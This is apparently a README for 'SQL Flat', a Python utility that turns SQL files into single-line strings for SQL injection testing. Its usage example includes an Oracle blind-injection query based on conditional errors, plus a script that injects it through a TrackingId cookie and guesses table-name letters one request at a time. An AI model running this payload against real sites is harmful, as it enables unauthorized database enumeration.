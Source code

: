 SQL Flat
========

SQL Flat is a Python utility for converting SQL queries to a single line
string. This can be useful while testing for sql injection.

Installation
------------

You can install SQL Flat using ``pip``:

.. code:: sh

   pip install sqlflat

Usage
-----

To use SQL Parser, import the ``sql_to_string`` function:

.. code:: py

   from sqlflat import sql_to_string

Then call the function with the path to the SQL file:

.. code:: py

   query = sql_to_string('path/to/file.sql')

This will return the single line version of the SQL query as a string.

Replacing variables
-------------------

If you need to replace variables in the SQL query, you can do so using
Python’s string formatting syntax. For example, let’s say you have a SQL
query in select_empty_from_dual.sql that includes the variable @a:

.. code:: sql

   -- Blind SQL injection with conditional errors
   -- Throws an error if the variable @a is equal to the first letter of table_name
   SELECT
       CASE
           WHEN LEFT(table_name, 1) = @a THEN TO_CHAR(1/0)
           ELSE  NULL
       END

   FROM all_tables

   WHERE ROWNUM = 1

You can replace the @a variable in your querry like so:

.. code:: py

   #!/usr/bin/python3

   import requests
   from sqlflat import sql_to_string

   for i in range(97,123):
       payload = sql_to_string("select_empty_from_dual.sql").replace('@a', '{}'.format(chr(i)))
       headers = {"Cookie": "TrackingId=0JzsmXsiTEOayV6o'||({})||'; session=CkRxbyf7MgZHJQjSFwTi7oQ1cBLGAgeY".format(payload)}
       r = requests.get('https:/example.com/', headers=headers)
       print("{} - {}".format(chr(i), r.status_code))

This code loads the SQL query from select_empty_from_dual.sql and
replaces the @a variable with a letter from a to z using Python’s chr()
function.

Contributing
------------

If you find a bug or would like to suggest a new feature, please open an
issue on the GitHub repository. Pull requests are also welcome!

License
-------

SQL Flat is licensed under the MIT License. See LICENSE for details.
